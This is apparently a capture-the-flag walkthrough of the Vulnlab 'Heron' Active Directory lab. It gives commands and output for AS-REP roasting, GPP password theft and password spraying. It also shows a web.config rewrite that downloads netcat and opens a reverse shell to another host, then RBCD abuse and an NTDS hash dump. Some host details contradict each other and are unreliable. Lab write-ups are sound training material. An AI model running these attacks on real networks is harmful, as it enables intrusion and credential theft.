





---

layout: post
title: VL Heron (Chain medium) 
date: 28-07-2024
categories: [Vulnlab, Chain]
tag: [Vulnlab, Chain, Active Directory, RBCD, Linux AD, Through Proxy]
author: Ethicxz
image: assets/image_start/heron_slide.png
description: VL Chain Heron by Ethicxz
---
# Before Starting
```console
Me > 10.8.2.163
Target > 10.10.173.53 ; 10.10.173.54
```
## Enumeration

```bash
ping 10.10.173.53 > 64 bytes from 10.10.173.54: icmp_seq=1 ttl=63 time=31.3 ms 

ping 10.10.173.54 > 64 bytes from 10.10.173.53: icmp_seq=1 ttl=127 time=30.5 ms
``` 
Thanks to 'ttl' we can see that .53 is a linux machine and .54 is a windows machine

We can do an nmap on both machines but only port 22 (ssh) is open on the linux machine

When the box was released, the author specified to look at the vulnlab wiki before starting it



Let's ssh with pentest:Heron123! on the linux machine

```bash
pentest@frajmp:~$ whoami
pentest

pentest@frajmp:~$ id
uid=1001(pentest) gid=1001(pentest) groups=1001(pentest)

pentest@frajmp:~$ ls /home
_local  pentest  svc-web-accounting-d@heron.vl  svc-web-accounting@heron.vl
```
Now that we are connected we can start enumerating through this machine, let's do this with fscan

[https://github.com/shadow1ng/fscan](https://github.com/shadow1ng/fscan)

Upload fscan on the target machine and run it :

```bash
pentest@frajmp:~$ chmod +x fscan
pentest@frajmp:~$ ./fscan -h 10.10.173.0/24

(icmp) Target 10.10.173.49    is alive
(icmp) Target 10.10.173.53    is alive
(icmp) Target 10.10.173.54    is alive
[*] Icmp alive hosts len is: 3
10.10.173.53:88 open
10.10.173.53:445 open
10.10.173.53:139 open
10.10.173.53:135 open
10.10.173.53:80 open
10.10.173.54:54 open
[*] alive ports len is: 6
start vulscan
[*] NetBios 10.10.173.53    [+] DC:mucdc.heron.vl   Windows Server 2054 Standard 20348
[*] NetInfo
[*]10.10.173.53
   [->]mucdc
   [->]10.10.173.53
[*] OsInfo 10.10.173.53 (Windows Server 2054 Standard 20348).
```
Now we can forward :

[https://github.com/nicocha30/ligolo-ng](https://github.com/nicocha30/ligolo-ng) (I used ligolo)

```bash
# local machine 
./proxy -selfcert

# target machine
pentest@frajmp:~$ chmod +x agent
pentest@frajmp:~$ ./agent -connect 10.8.2.163:11601 -ignore-cert &

# local machine
sudo ip tuntap add user root mode tun ligolo
sudo ip link set ligolo up
sudo ip route add 10.10.173.53/32 dev ligolo
```

Then select the session like this :



Reach the site on 10.10.173.53


```console
# potential users.txt :
wayne.wood
julian.pratt
samuel.davies
w.wood
j.pratt
s.davies
```

```bash
nxc smb "10.10.173.53" -u 'toto'  -p ''

SMB         10.10.173.53    445    MUCDC            [*] Windows Server 2022 Standard 20348 x64 (name:MUCDC) (domain:heron.vl) (signing:True) (SMBv1:True)
SMB         10.10.173.53    445    MUCDC            [-] heron.vl\toto: STATUS_LOGON_FAILURE
```
There is no Guest Session so we need to find creds

## First user, samuel.davies

Let's try ASREProast : [https://tools.thehacker.recipes/impacket/examples/getnpusers.py](https://tools.thehacker.recipes/impacket/examples/getnpusers.py)

```bash
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -usersfile users.txt -dc-ip "10.10.173.53" "heron.vl"/
Impacket v0.11.0 - Copyright 2023 Fortra

[-] User wayne.wood doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User julian.pratt doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$samuel.davies@HERON.VL:7f8381c531585de12e3932be634b005b$79840d0766dafb30d2b50ada6fe153870a3941bd80bf74e414113a40374f75ccf6501f26619f41a5c9c46a8e36463b2f014308770e534bb45cea9b32e301275727b83aa743b1545f54890d4784609023b37e99c5b81b50eb07031618bb8d80017a7b1b183dac6e13b877b48150dc9217a324f27f2e22c57d05a6671532d9253492066085b0d9c2df30f9a8a16ada2915b2953e593490d560237615f1a6bcc765a1e39c4a2d4d8ddb484472bbe5647ea864fa395b1127ff75a25868f3a136cd5722ca726f22715208cdfafa39821adea3261c5567b94e5ae65a5f8c38b8abfeb6f2c64393
```
Nice ! Now crack it : [https://www.thehacker.recipes/a-d/movement/credentials/cracking](https://www.thehacker.recipes/a-d/movement/credentials/cracking)

```bash
hashcat --hash-type 18200 --attack-mode 0 ASREProastables.txt /usr/share/wordlists/rockyou.txt
```

Now let's try creds :

```bash
nxc ldap "10.10.173.53" -u 'samuel.davies'  -p 'REDACTED'

SMB         10.10.173.53    445    MUCDC            [*] Windows Server 2022 Standard 20348 x64 (name:MUCDC) (domain:heron.vl) (signing:True) (SMBv1:True)
LDAP        10.10.173.53    389    MUCDC            [+] heron.vl\samuel.davies:REDACTED
```
```bash
nxc smb "10.10.173.53" -u 'samuel.davies'  -p 'REDACTED' --shares

SMB         10.10.173.53    445    MUCDC            [*] Windows Server 2022 Standard 20348 x64 (name:MUCDC) (domain:heron.vl) (signing:True) (SMBv1:True)
SMB         10.10.173.53    445    MUCDC            [+] heron.vl\samuel.davies:REDACTED
SMB         10.10.173.53    445    MUCDC            [*] Enumerated shares
SMB         10.10.173.53    445    MUCDC            Share           Permissions     Remark
SMB         10.10.173.53    445    MUCDC            -----           -----------     ------
SMB         10.10.173.53    445    MUCDC            accounting$
SMB         10.10.173.53    445    MUCDC            ADMIN$                          Remote Admin
SMB         10.10.173.53    445    MUCDC            C$                              Default share
SMB         10.10.173.53    445    MUCDC            CertEnroll      READ            Active Directory Certificate Services share
SMB         10.10.173.53    445    MUCDC            home$           READ
SMB         10.10.173.53    445    MUCDC            IPC$                            Remote IPC
SMB         10.10.173.53    445    MUCDC            it$
SMB         10.10.173.53    445    MUCDC            NETLOGON        READ            Logon server share
SMB         10.10.173.53    445    MUCDC            SYSVOL          READ            Logon server share
SMB         10.10.173.53    445    MUCDC            transfer$       READ,WRITE
```
## Getting a shell on the windows machine

We can read in SYSVOL and we saw that there were service accounts (svc_web)

```bash
nxc smb "10.10.173.53" -u 'samuel.davies'  -p 'REDACTED' -M gpp_password

GPP_PASS... 10.10.173.53    445    MUCDC            [+] Found credentials in 'heron.vl/Policies/{6CC75E8D-586E-4B13-BF80-B91BEF1F221C}/Machine/Preferences/Groups/Groups.xml'
GPP_PASS... 10.10.173.53    445    MUCDC            Password: REDACTED
GPP_PASS... 10.10.173.53    445    MUCDC            action: U
GPP_PASS... 10.10.173.53    445    MUCDC            newName: _local
GPP_PASS... 10.10.173.53    445    MUCDC            fullName:
GPP_PASS... 10.10.173.53    445    MUCDC            description: local administrator
GPP_PASS... 10.10.173.53    445    MUCDC            changeLogon: 0
GPP_PASS... 10.10.173.53    445    MUCDC            noChange: 0
GPP_PASS... 10.10.173.53    445    MUCDC            neverExpires: 1
GPP_PASS... 10.10.173.53    445    MUCDC            acctDisabled: 0
GPP_PASS... 10.10.173.53    445    MUCDC            subAuthority: RID_ADMIN
GPP_PASS... 10.10.173.53    445    MUCDC            userName: Administrator (built-in)
```
If you want to know how gpp password work : [https://infosecwriteups.com/attacking-gpp-group-policy-preferences-credentials-active-directory-pentesting-16d9a65fa01a](https://infosecwriteups.com/attacking-gpp-group-policy-preferences-credentials-active-directory-pentesting-16d9a65fa01a)

Nice ! Let's try this pass for every user we have :

```bash
nxc ldap "10.10.173.53" -u users.txt  -p 'REDACTED' --continue-on-success | grep -I '[+]'

LDAP   10.10.173.53    389    MUCDC   [+] heronvl\svc-web-accounting-d:REDACTED
```
```bash
nxc ssh "10.10.173.54" -u users.txt  -p 'REDACTED' --continue-on-success | grep -I '[+]'

SSH                      10.10.173.54    22     10.10.173.54     [+] svc-web-accounting-d@heron.vl:REDACTED  Linux - Shell access!
```
Now let's check what permissions we gained :

```bash
nxc smb "10.10.173.53" -u 'svc-web-accounting-d'  -p 'REDACTED' --shares | grep -I 'WRITE'

SMB                      10.10.173.53    445    MUCDC            accounting$     READ,WRITE
SMB                      10.10.173.53    445    MUCDC            transfer$       READ,WRITE

# connect 
smbclient.py "heron.vl"/"svc-web-accounting-d":'REDACTED'@"10.10.173.53"
```


As we can see there is a 'web.config' file



So we can try to modify this file for getting a reverse shell as 'svc-web-accounting' on the windows machine

Thanks to the ls in the smbclient we can guess that an 'accounting' vhost exists

Add on your /etc/hosts and reach the site

And now modify the web.config like this : 

```xml
<?xml version="1.0" encoding="utf-8"?>
<configuration>
  <location path="." inheritInChildApplications="false">
    <system.webServer>
      <handlers>
        <add name="aspNetCore" path="toto" verb="*" modules="AspNetCoreModuleV2" resourceType="Unspecified" />
      </handlers>
      <aspNetCore processPath="cmd.exe" arguments='/c echo IWR http://10.10.173.54:8000/nc.exe -OutFile %TEMP%\nc.exe | powershell -noprofile' stdoutLogEnabled="false" stdoutLogFile=".\logs\stdout" hostingModel="OutOfProcess" />
    </system.webServer>
  </location>
</configuration>
<!--ProjectGuid: 803424B4-7DFD-4F1E-89C7-4AAC782C27C4-->
```
So, when we go to reach 'accounting.heron.vl/toto', cmd.exe will fetch our nc.exe (note: the nc.exe must be on the target linux machine)

and now redo the same with this :

```bash
svc-web-accounting-d@heron.vl@frajmp:~$ nc -lvnp 9001
Listening on 0.0.0.0 9001
```

```xml
<?xml version="1.0" encoding="utf-8"?>
<configuration>
  <location path="." inheritInChildApplications="false">
    <system.webServer>
      <handlers>
        <add name="aspNetCore" path="toto" verb="*" modules="AspNetCoreModuleV2" resourceType="Unspecified" />
      </handlers>
      <aspNetCore processPath="cmd.exe" arguments='/c %TEMP%\nc.exe 10.10.173.54 9001 -e powershell' stdoutLogEnabled="false" stdoutLogFile=".\logs\stdout" hostingModel="OutOfProcess" />
    </system.webServer>
  </location>
</configuration>
<!--ProjectGuid: 803424B4-7DFD-4F1E-89C7-4AAC782C27C4-->
```
## Root on linux machine

Now after some digging i found this :

```powershell
PS C:\Windows\scripts> cat ssh.ps1
$plinkPath = "C:\Program Files\PuTTY\plink.exe"
$targetMachine = "frajmp"
$user = "_local"
$password = "REDACTED"
& "$plinkPath" -ssh -batch $user@$targetMachine -pw $password "ps auxf; ls -lah /home; exit"
```

Let's try the creds on the target linux machine

```bash
svc-web-accounting-d@heron.vl@frajmp:~$ su _local
Password: REDACTED

_local@frajmp:/home/svc-web-accounting-d@heron.vl$ sudo -l
Matching Defaults entries for _local on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
User _local may run the following commands on localhost:
    (ALL : ALL) ALL

_local@frajmp:/home/svc-web-accounting-d@heron.vl$ sudo su

root@frajmp:/home/svc-web-accounting-d@heron.vl# id
uid=0(root) gid=0(root) groups=0(root)
```
We root the linux machine !!

Ok now let's password spray

```bash
nxc smb "10.10.173.53" -u users.txt  -p 'REDACTED' --continue-on-success | grep -I '[+]'

SMB  10.10.173.53    445    MUCDC   [+] heron.vl\julian.pratt:REDACTED
```
Go in his home dir and we will find mucjmp.lnk file

## Getting adm_prju

```bash
cat mucjmp.lnk
2t`��ف+B�� �gP�O� �:i�+00�/C:\�1�X�sPROGRA~1t   ﾨR�B�X�s.BJz
AProgram Files@shell32.dll,-21781P1�X�[PuTTY<   ﾺX�[�X�[.���PuTTY\2 ��X�� putty.exeD    ﾆX���X�[.putty.exeO-N�h�ZC:\Program Files\PuTTY\putty.exe#..\..\Program Files\PuTTY\putty.exeC:\Program Files\PuTTY$adm_prju@mucjmp -pw REDACTED�&�

```
Verify Creds :

```bash
nxc ldap "10.10.173.53" -u 'adm_prju'  -p 'REDACTED' | grep -I '[+]'

LDAP                     10.10.173.53    389    MUCDC            [+] heron.vl\adm_prju:REDACTED
```
Now let's do a bloodhoud (Note: when i made the box i had done it well before with Samuel.Davies but it was no usefull, so I'm only doing it now in the walkthrough)

```bash
cme ldap heron.vl -u samuel.davies -p 'REDACTED' -k --bloodhound -ns 10.10.173.53 -c all

# Dont forgot to add 'mucdc.heron.vl' in your /etc/hosts
``` 


## Privesc RBCD on SPN-less users

Let's abuse this : [https://www.thehacker.recipes/a-d/movement/kerberos/delegations/rbcd](https://www.thehacker.recipes/a-d/movement/kerberos/delegations/rbcd)

```bash
nxc ldap "10.10.173.53" -u 'adm_prju'  -p 'REDACTED' -M maq

SMB         10.10.173.53    445    MUCDC            [*] Windows Server 2022 Standard 20348 x64 (name:MUCDC) (domain:heron.vl) (signing:True) (SMBv1:True)
LDAP        10.10.173.53    389    MUCDC            [+] heron.vl\adm_prju:REDACTED
MAQ         10.10.173.53    389    MUCDC            [*] Getting the MachineAccountQuota
MAQ         10.10.173.53    389    MUCDC            MachineAccountQuota: 0
```
So we can't delegate with a null machine

```bash
# create
rbcd.py -delegate-from 'adm_prju' -delegate-to 'mucdc$' -dc-ip 10.10.173.53 -action 'write' 'heron.vl/adm_prju:REDACTED'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] adm_prju can now impersonate users on mucdc$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     adm_prju     (S-1-5-21-1568358163-2901064146-3316491674-24596)

# check 
rbcd.py -delegate-to 'mucdc$' -dc-ip 10.10.173.53 -action 'read' 'heron.vl/adm_prju:REDACTED'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Accounts allowed to act on behalf of other identity:
[*]     adm_prju     (S-1-5-21-1568358163-2901064146-3316491674-24596)

# AND NOW "TRY" TO DELEGATE BUT THIS HAPPENS
getST.py -dc-ip 10.10.173.53 -spn cifs/mucdc.heron.vl 'heron.vl/adm_prju:REDACTED' -impersonate _admin
Impacket v0.11.0 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating _admin
[*]     Requesting S4U2self
[-] Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Probably user adm_prju does not have constrained delegation permisions or impersonated user does not exist
```
This is normal but the writeup is long enough as it is so I put some links which explain why it doesn't work and I go straight to the attack

[https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html](https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html)

[https://tttang.com/archive/1617/#toc_user-to-user-kerberos-authentication-u2u](https://tttang.com/archive/1617/#toc_user-to-user-kerberos-authentication-u2u)

[https://www.thehacker.recipes/a-d/movement/kerberos/delegations/rbcd#rbcd-on-spn-less-users](https://www.thehacker.recipes/a-d/movement/kerberos/delegations/rbcd#rbcd-on-spn-less-users)

```bash
# Obtain a TGT through overpass-the-hash to use RC4
getTGT.py -hashes :$(pypykatz crypto nt 'REDACTED') 'heron.vl'/'adm_prju'
# Obtain the TGT session key
describeTicket.py 'adm_prju.ccache' | grep 'Ticket Session Key'
# Change the controlledaccountwithoutSPN's NT hash with the TGT session key
smbpasswd.py -newhashes :2b4fb5a299c89025e4a37065f877efda 'heron.vl'/'adm_prju':'REDACTED'@'heron.vl'
# Set the .ccache
export KRB5CCNAME='adm_prju.ccache'
# S4U2self+U2U, followed by S4U2proxy
impacket-getST -u2u -impersonate "_admin" -spn "cifs/mucdc.heron.vl" -k -no-pass 'heron.vl'/'adm_prju'
# Set the .ccache
export KRB5CCNAME='_admin@cifs_mucdc.heron.vl@HERON.VL.ccache'
# Dump hashes
nxc smb 10.10.173.53 --use-kcache --ntds
           
# _admin:500:aad3b435b51404eeaad3b435b51404ee:399[...]938:::

nxc smb 10.10.173.53 -u '_admin' -H '399[...]938' --shares
SMB         10.10.173.53    445    MUCDC            [*] Windows Server 2022 Standard 20348 x64 (name:MUCDC) (domain:heron.vl) (signing:True) (SMBv1:True)
SMB         10.10.173.53    445    MUCDC            [+] heron.vl\_admin:399[...]938
```

AND WE ARE ROOT !!, if you have any questions you can dm me on discord : 'ethicxz.' or on [instagram](https://www.instagram.com/eliott.la/)

## Other way to privesc RBCD with a machine

There is also a another way to RBCD in this chain, when we got the root on the target linux machine we didnt digging anything, but we can do this :

[https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-active-directory#extract-accounts-from-etc-krb5.keytab](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-active-directory#extract-accounts-from-etc-krb5.keytab)

[https://github.com/sosdave/KeyTabExtract/blob/master/keytabextract.py](https://github.com/sosdave/KeyTabExtract/blob/master/keytabextract.py)

```bash
root@frajmp:/tmp# python3 keytabextract.py /etc/krb5.keytab
[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
        REALM : HERON.VL
        SERVICE PRINCIPAL : FRAJMP$/
        NTLM HASH : 6f[...]4f7
        AES-256 HASH : 7be[...]130e7
        AES-128 HASH : dca[...]cd
```

Then we can rbcd with a machine like this :

```bash
# create
rbcd.py -delegate-from 'frajmp$' -delegate-to 'mucdc$' -dc-ip 10.10.173.53 -action 'write' 'heron.vl/adm_prju:REDACTED'

# check
rbcd.py -delegate-to 'mucdc$' -dc-ip 10.10.173.53 -action 'read' 'heron.vl/adm_prju:REDACTED'

# get ticket
impacket-getST -dc-ip 10.10.173.53 -spn cifs/mucdc.heron.vl 'heron.vl/frajmp$' -impersonate _admin -hashes :6f[...]4f7

# export ticket and get hashes
nxc smb 10.10.173.53 --use-kcache --ntds
```
